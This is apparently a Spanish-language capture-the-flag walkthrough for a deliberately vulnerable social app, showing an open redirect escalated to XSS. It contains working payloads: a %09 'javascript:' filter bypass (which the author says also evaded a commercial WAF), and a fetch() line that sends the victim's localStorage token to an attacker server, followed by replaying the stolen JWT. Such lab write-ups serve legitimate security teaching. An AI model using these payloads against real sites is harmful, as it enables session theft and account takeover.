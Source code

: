 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

</details>
